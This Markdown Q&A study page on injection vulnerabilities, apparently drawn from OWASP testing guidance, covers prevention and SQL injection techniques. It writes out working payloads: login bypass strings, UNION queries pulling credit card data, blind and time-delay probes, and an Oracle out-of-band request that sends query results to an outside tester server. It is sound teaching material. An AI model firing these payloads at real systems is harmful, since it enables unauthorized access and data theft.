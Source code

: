 # Injection

## Links
[OWASP: injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)

[SAST](https://owasp.org/www-community/Source_Code_Analysis_Tools)

[DAST](https://owasp.org/www-community/Vulnerability_Scanning_Tools)

[Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)

[Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)

## Questions

<details>
  <summary>What is the injection?</summary>

  It is possible to inject data into almost all sources. Injection flaws occur when an attacker can send hostile data. Injection vulnerabilities are very prevalent, particularly in legacy code. SQL, LDAP, XPath or NoSQL queries, OS commands, XML parsers, SMTP headers, expression languages and ORM queries often are vulnerable to injection. The injection can result in data loss, corruption, disclosure to unauthorized parties, loss of accountability, or denial of access. Also, the injection can sometimes lead to a complete host takeover.

</details>

<details>
  <summary>When is an application is vulnerable?</summary>

  * when user-supplied data is not validated, filtered, or sanitized by the application;

  * when dynamic queries or non-parameterized calls without context-aware escaping are used directly in the interpreter;

  * when using hostile data within object-relational mapping (ORM) search parameters to extract additional, sensitive records;

  * when the SQL or command contains both structure and hostile data in dynamic queries, commands, or stored procedures (directly using).

</details>

<details>
  <summary>How to prevent injection?</summary>

  * Use a safe API, which avoids direct using an interpreter entity or provides a parameterized interface or uses Object Relational Mapping Tools (ORMs);

  * Use a positive serverside input validation;

  * Escape special characters for dynamic queries; 

  * Use LIMIT and other SQL controls within queries to prevent mass disclosure of records in case of SQL injection.

</details>

<details>
  <summary>What tools could help to avoid injection?</summary>

  * Static Application Security Testing (SAST)
  
  * Dynamic Application Security Testing (DAST)

</details>

<details>
  <summary>What are the criteria for secure database access?</summary>

  * secure queries:

  SQL Injection occurs when untrusted user input is dynamically added to a SQL query in an insecure manner, often via basic string concatenation. An attacker can get a foothold on your network by it. The best way of protection is using a programming technique known as query Parameterization. It allows the database to distinguish between code and data.

  * secure configuration:

  It is possible to use a secure database configuration. Need to be sure that security controls are available from the Database Management System and hosting platform is enabled and properly configured.

  * secure authentication:

  Authentication should take place only over a secure channel.

  * secure communication:

  Most DBMS support a set of communications methods - secure and insecure. It is a good practice to use secure communications options.

</details>

<details>
  <summary>What is the ASVS(Application Security Verification Standard)?</summary>

  The ASVS provides a basis for testing web application technical security controls and provides developers with a list of requirements for secure development. The requirements are following objectives in mind:

  * Use as a metric: provide application developers and application owners with a yardstick that allows assessing the degree of trust in your application;

  * Use as guidance: guide security control developers as to what to build into security controls to satisfy application security requirements;

  * Use during procurement: provide a basis for specifying application security verification requirements in contracts.

</details>

<details>
  <summary>What are classes of the SQL injection?</summary>

  Inband(inside): extract data by the same channel as for injection of the SQL code.
  
  Out-of-band(outside): data is retrieved using a different channel.
  
  Inferential or Blind: there is no actual transfer of data, but the tester can reconstruct the information by sending particular requests and observing the resulting behaviour of the DB Server.

</details>

<details>
  <summary>What are SQL injection techniques?</summary>

  It is possible to use five general techniques or their combinations.

  Union Operator: use when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set;

  Boolean: use Boolean condition(s) to verify whether certain conditions are true or false;

  Error based: this technique forces the database to generate an error, giving the attacker or taster information which to refine their injection;

  Out-of-band: the technique used to retrieve data using a different channel;

  Time delay: use database commands to delay answers in conditional queries. It is useful when an application doesn't provide results, outputs or errors to an attacker.

</details>

<details>
  <summary>What are detection techniques?</summary>

  Firstly need to understand when the application interacts with a DB Server to access some data. Typical examples:

  Authentication forms: if authentication uses a web form, generally, an application will check user credentials;

  Search engines: if the SQL query extracts all relevant records from a database, it will be possible to use submitted string;

  E-Commerce sites: the products and their characteristics are very likely to be stored in a database.

  The tester should check by an input fields list whose values could be used in SQL queries separately.

</details>

<details>
  <summary>What is standard SQL injection testing (Classic SQL injection)?</summary>

  Consider the following SQL query:
  
  `SELECT * FROM Users WHERE Username='$username' AND Password='$password'`

  Suppose we insert the following Username and Password values:

  `$username = 1' or '1' = '1`

  `$password = 1' or '1' = '1`

  The query will be:

  `SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1'`

  If the values was sent by the GET method and if the domain was `www.example.com`, the request would be:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&amp;password=1'%20or%20'1'%20=%20'1`

  After a short analysis, we notice that the query returns a value (or a set of values) because the condition has a successful result (OR 1=1).

  Another example query is the following:

  `SELECT * FROM Users WHERE ((Username='$username') AND (Password=MD5('$password')))`

  The query has two problems: the parentheses and the MD5 hash function. The values could be:

  `$username = 1' or '1' = '1'))/*`

  `$password = foo`

  In this way, we’ll get the following query:

  `SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND (Password=MD5('$password')))`

  (Due to the inclusion of a comment delimiter in the $username value the password portion of the query will be ignored.)
  The request URL will be:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))/*&amp;password=foo`

  It may return many values. Sometimes, the authentication code verifies that the number of returned records/results is equal to 1. Could be use next values:

  `$username = 1' or '1' = '1')) LIMIT 1/*`

  `$password = foo`

  In this way, we create a request like the following:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))%20LIMIT%201/*&amp;password=foo`

</details>

<details>
  <summary>What is standard SQL injection testing (SELECT Statement)?</summary>

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. It is possible to try to use the AND and OR operators.

  Consider the request:

  `http://www.example.com/product.php?id=10 AND 1=2`

  `SELECT * FROM products WHERE id_product=10 AND 1=2`

  In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result:

  `http://www.example.com/product.php?id=10 AND 1=1`

</details>

<details>
  <summary>What is standard SQL injection testing (Stacked Queries)?</summary>

  If an application uses the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) will be possible to execute multiple queries in one call.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  A way to exploit the above scenario would be:

  `http://www.example.com/product.php?id=10; INSERT INTO users (…)`

  This way is possible to execute many queries in a row and independent of the first query.

</details>

<details>
  <summary>How understand what backend database uses?</summary>

  The first way to find out what back end database uses is by observing the error returned by the application. The following are some examples of error messages:

  MySql:

    You have an error in your SQL syntax; check the manual
    that corresponds to your MySQL server version for the
    right syntax to use near '\'' at line 1

  `SELECT id, name FROM users WHERE id=1 UNION SELECT 1, version() limit 1,1`

  Oracle:

    ORA-00933: SQL command not properly ended
    MS SQL Server:
    Microsoft SQL Native Client error ‘80040e14’
    Unclosed quotation mark after the character string

  `SELECT id, name FROM users WHERE id=1 UNION SELECT 1, @@version limit 1, 1`

  PostgreSQL:

    Query failed: ERROR: syntax error at or near
    "’" at character 56 in /www/site/test.php on line 121.

  If there is no error message or a custom error message, the tester can inject it into string fields using varying concatenation techniques.

</details>

<details>
  <summary>How understand what backend database uses (Union Exploitation Technique)?</summary>

  The UNION operator is used in SQL injections to join a query, purposely forged by the tester, to the original one. It allows obtaining values from other tables. Look at the following example:

  `SELECT Name, Phone, Address FROM Users WHERE Id=$id`

  We will set the following $id value:

  `$id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

  We will have the following query:

  `SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

  The keyword ALL is necessary to get around queries that use the keyword DISTINCT. Moreover, we notice that beyond the credit card numbers, we have selected two other values. They allow avoiding a syntax error.

  The first detail a tester needs to exploit the SQL injection vulnerability using the technique is to find the correct numbers of columns in the SELECT statement.

  The tester can use ORDER BY clause followed by a number indicating the numeration of the column selected:

  `http://www.example.com/product.php?id=10 ORDER BY 10--`

  After the tester finds out the numbers of columns, the next step is to find out the type of columns. Assuming there were three columns in the example above, the tester could try each column type, using the NULL value to help them:

  `http://www.example.com/product.php?id=10 UNION SELECT 1,null,null--`

  If the query fails, the tester will probably see a message like:

    All cells in a column must have the same datatype
    If the query executes with success, the first column can be an integer. Then the tester can move further and so on:

  `http://www.example.com/product.php?id=10 UNION SELECT 1,1,null--`

  After gathering successful information, the application may only show one line of the result because the application treats only the first line. It is possible to use a LIMIT clause or the tester can set an invalid value, making only the second query valid:

  `http://www.example.com/product.php?id=99999 UNION SELECT 1,1,null--`

</details>

<details>
  <summary>How understand what backend database uses (Boolean Exploitation Technique)?</summary>

  The technique is well during blind SQL Injection if the tester cannot get information about a database from an outcome. For example, if a programmer has created a custom error page that does not provide information from a database.

  The method consists of carrying out a series of boolean queries against the server, observing the answers and finally deducing the meaning of such answers. Consider the www.example.com domain and suppose that it contains a parameter named id vulnerable to SQL injection. It means that carrying out the following request:

  `http://www.example.com/index.php?id=1'`

  Suppose that the database query would be:

  `SELECT field1, field2, field3 FROM Users WHERE Id='$Id'`

  The tests that we will execute will allow us to obtain the value of the username field, extracting such value character by character. It is possible to present in practically every database using some standard functions. For our examples:

  * SUBSTRING (text, start, length);
  * ASCII (char);
  * LENGTH (text).

  As an example, we will use the following value for Id:

  `$Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1`

  That creates the following query:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1'`

  The previous example returns a result if and only if the first character of the field username is equal to the ASCII value 97. But it could be a problem to understand which way could distinguish tests returning a true value from those that return false. Create the query that always returns true:

  `$Id=1' AND '1' = '2`

  Which will create the following query:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND '1' = '2'`

  It is possible to get length of the field:

  `$Id=1' AND LENGTH(username)=N AND '1' = '1`

  Where N is the number of characters that we have analyzed up to now:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND LENGTH(username)=N AND '1' = '1'`

  The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability.

</details>

<details>
  <summary>How understand what backend database uses (Error Based Exploitation Technique)?</summary>

  The technique could be used by a tester when he cannot use one of the other techniques. The point is data extraction from the database by error messages.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be (e.g. Oracle 10g):

  `http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--`

  In this example, the tester is concatenating the value 10 with the result of the function UTL_INADDR.GET_HOST_NAME. This Oracle function will try to return the hostname of the parameter passed to it, which is another query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:

  `ORA-292257: host SCOTT unknown`

  Then the tester can manipulate the parameter passed to GET_HOST_NAME() function and the result will be shown in the error message.

</details>

<details>
  <summary>How understand what backend database uses (Out of Band Exploitation Technique)?</summary>

  The technique consists of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be:

  `http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

  UTL_HTTP.request function will try to connect to the fake server and make an HTTP GET request containing the return from the query: SELECT user FROM DUAL.

</details>

<details>
  <summary>How understand what backend database uses (Time Delay Exploitation Technique)?</summary>

  The technique consists in sending an injected query. If the conditional was true, the tester would monitor the server response time. 

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be (e.g. MySql 5.x):

  `http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--`

  In this example the tester checks whether the MySql version is 5.x or not, making the server sleep for 10 seconds. The tester can increase the delay time and monitor the responses.

</details>

<details>
  <summary>What is a stored procedure injection?</summary>

  When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure.
  
  Consider the following SQL Server Stored Procedure:
  
    Create procedure user_login @username varchar(20), @passwd varchar(20)
    As
    Declare @sqlstring varchar(250)
    Set @sqlstring  = ‘
    Select 1 from users
    Where username = ‘ + @username + ‘ and passwd = ‘ + @passwd
    exec(@sqlstring)
    Go
  
  User input:
  
  `anyusername or 1=1'`
  
  `anypassword`
  
  This procedure does not sanitize the input and allow the return value to show an existing record with these parameters.

</details>
